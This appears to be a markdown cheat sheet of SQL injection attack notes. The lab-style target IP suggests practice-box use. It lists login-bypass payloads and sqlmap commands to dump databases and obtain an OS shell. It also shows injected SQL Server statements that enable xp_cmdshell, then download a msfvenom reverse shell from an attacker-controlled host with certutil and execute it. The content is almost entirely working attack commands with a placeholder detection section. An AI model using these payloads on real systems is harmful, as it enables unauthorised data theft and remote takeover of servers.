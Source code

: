 ## Detection
bla bla

## Basic SQL injection
```
MySQL
Username: Administrator
Password: ' OR 1=1#

Username: admin' OR 1=1 -- -;
Password: admin' OR 1=1 -- -;
```

## SQLmap
Below example is a search engine on website for authenticated users:
```
# Use saved request from burp suite (RMB -> Save item)
sqlmap -r login.req

# URL to search:
# http://10.129.95.174/dashboard.php?search=ELI%27+OR+1%3D1%23

# basic scan to confirm vuln
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie"

# dump data
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --all

# Enumerate the database and tables to identify any sensitive information stored in the database.
sqlmap -r login.req --dbs

# Enumerate the database named main by extracting the table names.
sqlmap -r login.req -D main --tables

# Extract all the data from the user table.
sqlmap -r login.req -D main -T user --dump

# try to get command execution
sqlmap --url http://10.129.95.174/dashboard.php?search= --cookie="PHPSESSID=sessioncookie" --os-shell
```

## SQLserver

### RCE
First let turn on the functionality to execute commands: **xp_cmdshell**
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

turns into

http://127.0.0.1/sql.php?param='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
Download reverse shell (generated by msfvenom) and execute it
```
http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'certutil -urlcache -f http://<Kali IP>:8081/shell.exe C:\Windows\Temp\shell.exe'; --

http://127.0.0.1/sql.php?param='; EXEC xp_cmdshell 'C:\Windows\Temp\shell.exe'; --
```
